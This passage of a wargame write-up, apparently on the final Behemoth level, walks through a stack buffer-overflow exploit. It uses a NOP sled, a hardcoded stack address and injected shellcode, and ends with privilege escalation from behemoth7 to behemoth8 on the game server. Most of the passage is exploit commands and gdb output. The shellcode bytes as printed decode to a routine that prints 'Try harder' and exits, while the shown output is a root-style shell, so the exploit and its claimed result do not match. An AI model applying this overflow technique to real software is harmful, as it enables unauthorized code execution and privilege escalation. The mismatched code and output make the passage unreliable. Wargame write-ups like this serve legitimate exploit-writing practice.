 We don't control any of the registers, but our payload is in the stack and since there's no ASLR or NX, we can jump to a hardcoded address on the stack and execute shellcode. Unlike before, we can't set our shellcode in an environment variable because the binary actually zeroes out the environment variables. 

Ok let's try to see if we can jump to our shellcode on the stack. We'll jump to address 0xbffff178 which will land us in a NOP sled:

```
gdb-peda$ r `python -c 'from struct import *; print "A"*536 + pack("<I", 0xbffff178)  + "\x90"*50 + "\xeb\x19\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x0a\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x54\x72\x79\x20\x68\x61\x72\x64\x65\x72"'`
process 22156 is executing new program: /bin/dash
#
```

Hey it worked! Let's try it on the server now. All we have to do is crash it while it's in gdb so we can get an address to jump to. 

```
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/12wx $esp
0xffffd460: 0x90909090  0x90909090  0x90909090  0x90909090
0xffffd470: 0x90909090  0x90909090  0x90909090  0x90909090
0xffffd480: 0x90909090  0x90909090  0x90909090  0x90909090
```

We'll use 0xffffd470, which falls right in our NOP sled. 

```
behemoth7@melinda:~$ whoami
behemoth7
behemoth7@melinda:~$ /behemoth/behemoth7 `python -c 'import struct; print "A"*536 + struct.pack("<I", 0xffffd470) + "\x90"*50 + "\xeb\x19\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x0a\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x54\x72\x79\x20\x68\x61\x72\x64\x65\x72"'`
$ whoami
behemoth8
```

And that's it for the final challenge. Behemoth was fun and relatively easy. Great for beginners to who want to practice some exploit writing and privilege escalation techniques. 

